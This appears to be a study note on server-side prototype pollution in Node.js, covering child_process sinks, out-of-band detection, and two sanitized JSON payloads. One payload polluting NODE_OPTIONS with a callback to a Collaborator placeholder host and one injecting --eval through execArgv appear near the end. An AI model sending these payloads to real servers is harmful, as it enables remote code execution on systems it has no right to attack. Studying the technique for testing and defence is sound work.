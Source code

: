 ## Key concepts to cover

* **Prototype pollution**: modifying an object's prototype so properties are inherited by other objects that don’t define those properties themselves.
* **Server-side vs client-side**: server-side pollution can influence server runtime behaviour (not just DOM).
* **Node process options and env**: `process.env`, `NODE_OPTIONS` and `execArgv` can affect how child Node processes are spawned.
* **Child process sinks**:

  * `child_process.spawn()` / `exec()` — possibilities if `shell` or arguments are influenced.
  * `child_process.fork()` — accepts `execArgv` (array of node runtime args) which can be abused with `--eval`.
  * `child_process.execSync()` — executes shell strings (potential command injection if combined with prototype pollution enabling control of inputs).

## Detection strategy (high-level)

* Use an **out-of-band (OOB)** channel (Burp Collaborator or equivalent) to detect when a polluted property is used to spawn a new process or is interpolated into a command.
* Pollute global-ish objects (e.g., `__proto__`, `constructor.prototype`, or `env`-like objects) with a value that triggers an OOB interaction when consumed as a process argument or env var.
* Watch for asynchronous requests/operations that occur *after* the request used to pollute the prototype — these may trigger the sink.

## Payload ideas / examples (sanitized)

* Pollute `NODE_OPTIONS` to add startup flags that cause a remote callback (use your OOB domain placeholder):

```json
{
  "__proto__": {
    "shell": "node",
    "NODE_OPTIONS": "--inspect=YOUR-COLLABORATOR-ID.oastify.com"
  }
}
```

* Pollute `execArgv` used by `child_process.fork()` to inject `--eval` and execute arbitrary JS:

```json
{
  "constructor": {
    "prototype": {
      "execArgv": [
        "--eval=require('<module>')"
      ]
    }
  }
}
```

